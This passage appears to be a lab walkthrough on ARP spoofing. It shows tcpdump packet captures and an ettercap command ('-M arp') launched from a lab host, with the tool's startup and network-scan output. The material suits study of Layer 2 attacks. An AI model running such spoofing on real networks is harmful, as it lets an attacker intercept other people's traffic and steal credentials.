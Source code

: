 ```shell
11:23:54.998810 ARP, Ethernet (len 6), IPv4 (len 4), Reply bob is-at 1e:d7:12:a5:32:1b (oui Unknown), length 28
............2.....:.}A.....B
11:26:05.302417 IP6 (hlim 255, next-header ICMPv6 (58) payload length: 16) fe80::d85b:cfff:fec6:3b14 > ip6-allrouters: [icmp6 sum ok] ICMP6, router solicitation, length 16
          source link-address option (1), length 8 (1): da:5b:cf:c6:3b:14
            0x0000:  da5b cfc6 3b14
`.....:..........[....;............................[..;.
11:27:10.838441 IP6 (hlim 255, next-header ICMPv6 (58) payload length: 16) fe80::1cd7:12ff:fea5:321b > ip6-allrouters: [icmp6 sum ok] ICMP6, router solicitation, length 16
          source link-address option (1), length 8 (1): 1e:d7:12:a5:32:1b
            0x0000:  1ed7 12a5 321b
`.....:...............2...............................2.
11:34:16.822422 IP6 (hlim 255, next-header ICMPv6 (58) payload length: 16) fe80::d85b:cfff:fec6:3b14 > ip6-allrouters: [icmp6 sum ok] ICMP6, router solicitation, length 16
          source link-address option (1), length 8 (1): da:5b:cf:c6:3b:14
            0x0000:  da5b cfc6 3b14
`.....:..........[....;............................[..;.
11:37:00.662419 IP6 (hlim 255, next-header ICMPv6 (58) payload length: 16) fe80::1cd7:12ff:fea5:321b > ip6-allrouters: [icmp6 sum ok] ICMP6, router solicitation, length 16
          source link-address option (1), length 8 (1): 1e:d7:12:a5:32:1b
            0x0000:  1ed7 12a5 321b
`.....:...............2...............................2.
^C
42 packets captured
42 packets received by filter
0 packets dropped by kernel

```
<div align="center">
<br>
</div>

##### Now launch the same ARP spoofing attack as in the previous task. Can you see some interesting traffic, now? (Nay/Yay)

```shell
admin@eve:~$ sudo ettercap -T -i eth1 -M arp

ettercap 0.8.3 copyright 2001-2019 Ettercap Development Team

Listening on:
  eth1 -> 56:E0:12:75:87:7C
          192.168.12.66/255.255.255.0
          fe80::ac9f:c3ff:fe39:55db/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Ettercap might not work correctly. /proc/sys/net/ipv6/conf/all/use_tempaddr is not set to 0.
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
24609 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |==================================================>| 100.00 %

2 hosts added to the hosts list...
```